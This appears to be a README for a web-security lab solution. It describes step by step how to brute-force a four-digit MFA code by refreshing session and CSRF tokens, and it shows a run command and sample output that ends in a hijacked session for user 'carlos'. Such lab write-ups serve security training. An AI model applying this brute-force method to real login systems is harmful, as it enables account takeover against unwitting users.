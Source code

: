 # Hack Steps

1. GET /login page and extract the session from cookie header and csrf token from the body
2. POST /login with valid credentials, extracted session and the csrf token
3. Obtain the new session
4. GET /login2 with the new session
5. Extract the csrf token from the body of /login2
6. POST the mfa-code with the new session and the new extracted csrf token
7. Repeat the process with all possbile numbers 

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python 2fa_bypass_using_a_brute_force_attack.py
```

# Expected Output

```
[#] Brute forcing the mfa-code of carlos..
[*] Elapsed: 19 minutes || Failed: 1 || (587/10000) 0588 => Incorrect
✅ Correct code: 0589
✅ New session: 2xAatFfbH1ezWx6fvMtM9R0zE62I7MnP
Use this session in your browser to login as carlos

✅ Finished in: 19 minutes

[!] Failed codes count: 1 
[!] Failed codes: ["0316"]
```
